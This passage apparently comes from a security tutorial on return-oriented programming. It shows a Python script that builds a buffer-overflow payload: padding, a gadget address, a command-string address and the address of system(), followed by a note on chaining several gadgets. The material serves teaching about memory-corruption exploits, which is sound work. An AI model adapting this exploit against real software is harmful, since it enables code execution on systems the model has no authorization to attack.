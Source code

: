 ```python
#file: rop.py
#output: r64.in
import struct
import sys

gadget_addr = 0x00000000004005b3
buff_addr = 0x7fffffffd560
ret_addr = 0x7fffffffd5a8
command_addr = 0x7ffff7b99d57
system_addr = 0x7ffff7a52390

padding_len = ret_addr - buff_addr

sys.stdout.write('a'*padding_len+struct.pack("<Q", gadget_addr) + struct.pack("<Q", command_addr)+ struct.pack("<Q", system_addr))

```

We got lucky in this case because we only needed to use a single gadget to set
up our register. In many cases, we may have to string together multiple gadgets
into a single **ROP chain** to achieve the desired results---for example,
imagine what we'd need to do if we are calling a function that requires
multiple arguments.


